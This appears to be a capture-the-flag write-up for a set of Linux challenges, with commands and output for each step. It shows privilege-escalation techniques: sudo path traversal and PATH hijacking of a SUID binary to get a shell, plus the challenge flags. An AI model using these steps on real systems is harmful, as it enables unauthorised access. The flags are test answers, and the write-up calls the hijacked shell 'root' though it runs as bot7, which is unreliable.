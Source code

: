 # Linux Rules the World! \(Linux\)

## Lock and Key

We are given a private RSA key file. We can use `ssh-keygen -p` to change the passphrase.

```text
root@no:~/Downloads# chmod 600 cybot01_bot1.key 
root@no:~/Downloads# ssh-keygen -p -f cybot01_bot1.key 
Key has comment 'bot1@ip-172-31-34-218'
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.
```

```text
root@no:~/Downloads# ssh -i cybot01_bot1.key bot1@13.213.91.240
```

Once in, the flag is in the home directory.

`CDDC21{b0t_eNtR3nC3}`

## License to Run

The challenge description hinted at some malicious file that can be run. I looked for all the files that were executable by `bot2`, and found an interesting file in the home directory.

```text
bot2@cybot01:/$ find / -executable -type f 2>/dev/null | grep flag
/usr/src/linux-aws-headers-5.4.0-1045/tools/perf/trace/beauty/mount_flags.sh
/usr/src/linux-aws-headers-5.4.0-1045/tools/perf/trace/beauty/move_mount_flags.sh
/usr/src/linux-aws-headers-5.4.0-1045/tools/perf/trace/beauty/mmap_flags.sh
/usr/src/linux-aws-headers-5.4.0-1045/tools/perf/trace/beauty/rename_flags.sh
/usr/src/linux-aws-5.8-headers-5.8.0-1035/tools/perf/trace/beauty/mount_flags.sh
/usr/src/linux-aws-5.8-headers-5.8.0-1035/tools/perf/trace/beauty/move_mount_flags.sh
/usr/src/linux-aws-5.8-headers-5.8.0-1035/tools/perf/trace/beauty/mmap_flags.sh
/usr/src/linux-aws-5.8-headers-5.8.0-1035/tools/perf/trace/beauty/rename_flags.sh
/home/bot2/.#flag$!!1
```

Running this file gives us the flag.

```text
bot2@cybot01:~$ ./.#flag\$\!\!1 
CDDC21{TH4nKsF0R_p3RM}
```

## Historian

In the `.viminfo` file, a secret file location is revealed. The `/usr/local/share/secret` file contains the flag.

```text
bot3@cybot01:~$ ls -la
total 24
dr-xr-x---  2 root bot3 4096 Jun 18 09:51 .
drwxr-xr-x 10 root bot5 4096 Jun 18 09:51 ..
lrwxrwxrwx  1 root root    9 Jun 18 09:51 .bash_history -> /dev/null
-r--r-----  1 bot3 bot3  220 Feb 25  2020 .bash_logout
-r--r-----  1 bot3 bot3 3771 Feb 25  2020 .bashrc
-r--r-----  1 bot3 bot3  807 Feb 25  2020 .profile
-rwx------  1 bot3 root  794 Jun 23 10:34 .viminfo

bot3@cybot01:~$ cat .viminfo
...

# File marks:
'0  1  15  /usr/local/share/secret
4,48,1,15,1620820231,"/usr/local/share/secret'

...

bot3@cybot01:~$ cat /usr/local/share/secret
CDDC21{V1m_th3_s4vior}
```

## Line Inspection

There is a `random-secrets` file with lots of gibberish. Grepping the `CDDC` substring gives us the flag.

```text
bot4@cybot01:~$ cat random-secrets | grep CDDC
CDDC21{gRe3EpL1nG}
```

## Super

We are allowed to run `/usr/bin/cat /var/log/*` as bot6 with no password.

```text
bot5@cybot01:~$ sudo -l
Matching Defaults entries for bot5 on cybot01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bot5 may run the following commands on cybot01:
    (bot6 : bot6) NOPASSWD: /usr/bin/cat /var/log/*
```

We can use path traversal to get the flag:

```text
bot5@cybot01:~$ sudo -u bot6 cat /var/log/../../../home/bot5/flag.txt
CDDC21{b3w4r3sud03rz}
```

## Path to Win

There is a `systeminfo` binary in the home directory.

```text
bot6@cybot01:~$ ls -la
total 44
dr-xr-x---  2 root bot6  4096 Jun 18 09:51 .
drwxr-xr-x 10 root bot5  4096 Jun 18 09:51 ..
lrwxrwxrwx  1 root root     9 Jun 18 09:51 .bash_history -> /dev/null
-r--r-----  1 bot6 bot6   220 Feb 25  2020 .bash_logout
-r--r-----  1 bot6 bot6  3771 Feb 25  2020 .bashrc
-r--r-----  1 bot6 bot6   807 Feb 25  2020 .profile
-r--------  1 bot7 root    31 Jun 18 09:51 flag.txt
-r-sr-xr-x  1 bot7 root 17008 Jun 18 09:51 systeminfo
```

Running it gives the following output.

```text
bot6@cybot01:~$ ./systeminfo
System information...

[*] Date:
Wed Jun 23 15:06:18 UTC 2021

[*] Kernel:
5.8.0-1035-aws

[*] User infomation:
uid=1007(bot7) gid=1006(bot6) groups=1006(bot6),1005(bot5)
```

We can deduce that the `systeminfo` binary calls `id`. Note that since `systeminfo` has SUID permissions, it runs as `bot7`. If the `id` call does not use an absolute path, then we can perform PATH variable manipulation to force the execution of our custom payload.

This time, running `systeminfo` gives us a shell as root.

```text
bot6@cybot01:~$ cd /tmp
bot6@cybot01:/tmp$ echo /bin/sh > id
bot6@cybot01:/tmp$ chmod 777 id
bot6@cybot01:/tmp$ export PATH=/tmp:$PATH
bot6@cybot01:/tmp$ /home/bot6/systeminfo
System information...

[*] Date:
Wed Jun 23 15:07:48 UTC 2021

[*] Kernel:
5.8.0-1035-aws

[*] User infomation:
$ pwd
/tmp
$ cd /home/bot6
$ cat flag.txt
CDDC21{SU!d_!s_Qu!Te_DngeRouS}
```

